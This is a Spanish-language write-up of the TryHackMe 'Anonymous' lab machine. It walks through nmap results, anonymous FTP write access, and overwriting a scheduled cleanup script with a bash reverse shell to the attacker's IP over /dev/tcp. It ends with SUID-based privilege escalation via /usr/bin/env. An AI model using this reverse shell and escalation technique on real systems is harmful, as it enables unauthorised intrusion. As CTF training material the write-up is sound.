 ```yaml
---
title: "Anonymous Writeup - Try-Hack-Me"
date: 2024-01-20
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Medium]
image: 
  path: assets\img\imagenes\Anonymous.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Anonymous banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.157.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2024-01-20T21:35:30+00:00
|_clock-skew: mean: -28s, deviation: 0s, median: -28s
| smb2-time: 
|   date: 2024-01-20T21:35:30
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Ports: 21/ftp - 22/ssh - 139/smb - 445/smb 

### Enumeracion del puerto 21/ftp

```python
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.157.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
```
este puerto tiene una configuracion de credenciales por defecto con el usuario anonymous y tambien podemos ver que tenemos permisos writable (escritura)

### ftp 
nos conectamos al puerto ftp con las credenciales de anonymous(default) en este caso tenemos una carpeta llamada scripts la cual contiene 3 archivos, usando mget * podemos descargar todos los archivos para poder verlos mejor en local
![img](/assets/img/imagenes/Pasted image 20240120174450.png)

el archivo nmap.txt coresponde a nuestro archivo de escaneo y tenemos los 3 archivos que hemos conseguido en la maquina
![img](/assets/img/imagenes/Pasted image 20240120174740.png)

el archivo to_do.txt es un mensaje que nos dicen que han desabilitado el login de anonymous y que esto no es una practica segura. el archivo clean.sh es un script en bash que realiza una limpieza en el directorio /tmp. debido a que tenemos permisos de escritura podriamos editar este script para optener una reverse shell
![img](/assets/img/imagenes/Pasted image 20240120175113.png)

el archivo removed.files.log solo es una captura de la ejecusion del script sin embargo dice que no se encontro nungun archivo para eliminar
![img](/assets/img/imagenes/Pasted image 20240120175636.png)

### Reverse shell
lo primero que vamos hacer sera editar el script.sh para agregar una reverse shell aregando el siguiente comando `bash -c "bash -i >& /dev/tcp/10.9.157.7/9001 0>&1"` una ves hecho esto vamos al servicio ftp y vamos a subir el nuevo script para ello nos posicionamos en la misma ruta donde esta el script anterior y solo hacemos un `put clean.sh` ahora ya tenemos el nuevo script en el sistema sono nos falta ponernos a la escucha con `nc lvnp 9001` este es el puerto que hemos especificado en la reverse shell y ya solo nos queda esperar un par de minutos para conseguir una coneccion
![img](/assets/img/imagenes/Pasted image 20240120181957.png)

### intrusión
hemos ganado intrusión como el usuario namelessone
![img](/assets/img/imagenes/Pasted image 20240120183436.png)

### Escalada de privilegios
buscaremos permisos SUID utilizando el comando `find / -perm -4000 2>/dev/null` tenemos el binario `/usr/bin/env` lo cual nos permite escalar privilegios 
![img](/assets/img/imagenes/Pasted image 20240120185947.png)

### WE ARE ROOT
![img](/assets/img/imagenes/Pasted image 20240120190528.png)